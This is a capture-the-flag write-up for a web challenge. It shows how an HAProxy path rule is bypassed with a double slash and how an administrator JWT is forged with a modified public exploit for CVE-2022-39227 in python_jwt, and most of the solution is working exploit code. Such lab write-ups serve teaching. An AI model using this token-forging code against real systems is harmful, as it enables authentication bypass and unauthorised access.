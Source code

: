 # LockTalk

## Challenge
In "The Ransomware Dystopia," LockTalk emerges as a beacon of resistance against the rampant chaos inflicted by ransomware groups. In a world plunged into turmoil by malicious cyber threats, LockTalk stands as a formidable force, dedicated to protecting society from the insidious grip of ransomware. Chosen participants, tasked with representing their districts, navigate a perilous landscape fraught with ethical quandaries and treacherous challenges orchestrated by LockTalk. Their journey intertwines with the organization's mission to neutralize ransomware threats and restore order to a fractured world. As players confront internal struggles and external adversaries, their decisions shape the fate of not only themselves but also their fellow citizens, driving them to unravel the mysteries surrounding LockTalk and choose between succumbing to despair or standing resilient against the encroaching darkness.

### Attachment
- [web_locktalk.zip](./handouts/web_locktalk.zip)

## Solution
In this web challenge, we're dealing with a web application, that offers three distinct endpoints:
1. Generate a JWT token
2. Read a chat history while specifying a valid JWT and
3. Retrieve the flag using a valid JWT, that specifies the `role=administrator`.

### Step 1: Generating a valid JWT:
Unfortunately the `conf/haproxy.cfg` file disallows any http request to the first endpoint `http://server-ip:port/api/v1/get_ticket`, that would allow us to generate a valid JWT. Luckily for us, we can trick this config by instead asking for `http://server-ip:port//api/v1/get_ticket` (note the doule `//` after the port) and receive a valid JWT, that specified the `role=guest`.
```python
import requests
import json

server = '83.136.255.230'
port = 37324

base_uri = f'http://{server}:{port}/'
get_ticket_endpoint = '/api/v1/get_ticket' # needs the extra "/" at the beginning to circumvent the haproxy.cfg!

# Get any valid JWT:
resp = requests.get(base_uri + get_ticket_endpoint)
jwt_guest = json.loads(resp.text)['ticket: ']
print('JWT for guest:', jwt_guest)
```

### Step 2: Using CVE-2022-39227 to escalate to administrator
Because the python-server uses the vulnerable version 3.3.3 of `python_jwt`, we can apply the exploit known for CVE-2022-39227 to update our JWT to pretend to be an administrator:

I've slightly modified the original `cve_2022_39227.py` (from Github, see references) to be able to use their code to update my JWT. This way we can supply the guest-JWT as a string and our claim to be of `role=administrator` and receive a new token including our claim, which the server will aknowledge.
```python
def fake_token(token, claim):
	# Split JWT in its ingredients
	[header, payload, signature] = token.split(".")
	print(f"[+] Retrieved base64 encoded payload: {payload}")
	# Payload is relevant
	parsed_payload = loads(base64url_decode(payload))
	print(f"[+] Decoded payload: {parsed_payload}")
	# Processing of the user input and inject new claims
	try:
		claims = claim.split(",")
		for c in claims:
			key, value = c.split("=")
			parsed_payload[key.strip()] = value.strip()
	except:
		print("[-] Given claims are not in a valid format")
		exit(1)
	# merging. Generate a new payload
	print(f'[+] Inject new "fake" payload: {parsed_payload}')
	fake_payload = base64url_encode((dumps(parsed_payload, separators=(',', ':'))))
	print(f'[+] Fake payload encoded: {fake_payload}\n')	
	# Create a new JWT Web Token
	new_payload = '{"' + header + '.' + fake_payload + '.":"","protected":"' + header + '", "payload":"' + payload + '","signature":"' + signature + '"}'
	print(f'[+] New token:\n {new_payload}\n')
	return new_payload
```

```python
from cve_2022_39227 import fake_token

# Fake the admin token
jwt_admin = fake_token(jwt_guest, 'role=administrator,user=administrator')
```

### Step 3: Retrieve the flag
At this point, we can use our forged token to access the `/api/v1/fag` endpoint to retrieve the flag:
```python
# Get the flag:
resp = requests.get(base_uri + flag_endpoint, headers={'Authorization': jwt_admin})
print('Flag:', json.loads(resp.text)['message'])
```
And that's it: `HTB{h4Pr0Xy_n3v3r_D1s@pp01n4s}`


## Resources
- [Github: Exploit for CVE-2022-39227 by user0x1337](https://raw.githubusercontent.com/user0x1337/CVE-2022-39227/main/cve_2022_39227.py)